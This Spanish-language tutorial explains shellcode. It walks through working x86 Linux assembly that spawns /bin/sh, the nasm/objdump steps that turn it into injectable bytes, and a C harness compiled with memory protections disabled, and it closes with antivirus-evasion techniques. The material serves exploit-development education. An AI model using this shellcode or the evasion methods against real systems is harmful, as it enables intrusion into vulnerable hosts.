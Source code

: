 # Shellcodes

### 1. ¿Qué es un Shellcode?
Un **shellcode** es un fragmento de código en lenguaje ensamblador diseñado para ejecutarse dentro de un proceso objetivo. 
Se usa comúnmente en **exploits** para tomar el control de un sistema vulnerable.

Los shellcodes pueden ejecutarse en memoria sin necesidad de archivos, lo que los hace ideales para ataques como **buffer overflows** o **inyecciones de código**.

### 2. Tipos de Shellcodes
Existen diferentes tipos de shellcodes según el contexto de ataque:

- **Shellcodes de usuario**: Se ejecutan dentro de procesos de usuario sin privilegios elevados.
- **Shellcodes de kernel**: Se ejecutan en el espacio de kernel, lo que permite un control total del sistema.
- **Shellcodes conectados a red**:
  - **Reverse shell**: Se conecta a un servidor remoto y permite al atacante tomar el control.
  - **Bind shell**: Abre un puerto en la máquina víctima para que el atacante se conecte.

### 3. Características de un Shellcode
Un shellcode efectivo debe cumplir con los siguientes criterios:

- **Pequeño**: Minimiza el tamaño para encajar en buffers pequeños.
- **Autocontenido**: No depende de librerías externas.
- **Evasivo**: Evita caracteres nulos (`\x00`) y detección por antivirus.
- **Portable**: Funciona en múltiples versiones del sistema operativo objetivo.

### 4. Creación de un Shellcode
Para crear un shellcode, se usa ensamblador y luego se convierte en una cadena de bytes. Por ejemplo, un shellcode en **x86 Linux** para ejecutar `/bin/sh`:

```assembly
section .text
    global _start

_start:
    xor eax, eax         ; Limpia eax
    push eax             ; NULL terminator
    push 0x68732f2f      ; "//sh"
    push 0x6e69622f      ; "/bin"
    mov ebx, esp         ; Apunta ebx a "/bin//sh"
    xor ecx, ecx         ; argv = NULL
    xor edx, edx         ; envp = NULL
    mov al, 0xb          ; syscall execve
    int 0x80             ; Llamada al kernel
```
### 5. Conversión de Shellcode a Cadena de Bytes

Para convertir un shellcode en ensamblador a una cadena de bytes.

Primero ensamblamos el código:

```bash
nasm -f elf32 shellcode.asm -o shellcode.o
```

Luego, lo vinculamos y obtenemos el shellcode en formato hexadecimal con `objdump`:

```bash
ld -m elf_i386 -o shellcode shellcode.o
objdump -d shellcode | grep '[0-9a-f]:' | grep -o '\b[0-9a-f]\{2\}\b' | tr -d '\n' | sed 's/\(..\)/\\x\1/g'
```

Este comando genera una cadena de bytes que se puede inyectar en un programa.

### 6. Uso del Shellcode en C

Podemos probar el shellcode en un programa en C:

```c
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";

int main() {
    printf("Ejecutando shellcode...\n");
    int (*ret)() = (int(*)())shellcode;
    ret();
}
```

Compilamos y ejecutamos:

```bash
gcc -m32 -fno-stack-protector -z execstack shellcode.c -o shellcode
./shellcode
```

Si se ejecuta correctamente, abrirá una shell interactiva.

### 7. Evasión de Detección

Para evitar detecciones, se pueden aplicar técnicas como:

- **Codificación XOR**: Para evitar bytes nulos y firmas conocidas.
- **Obfuscación**: Alterar el orden de instrucciones sin cambiar la funcionalidad.
- **Cifrado Polimórfico**: Utilizar decodificadores automáticos.
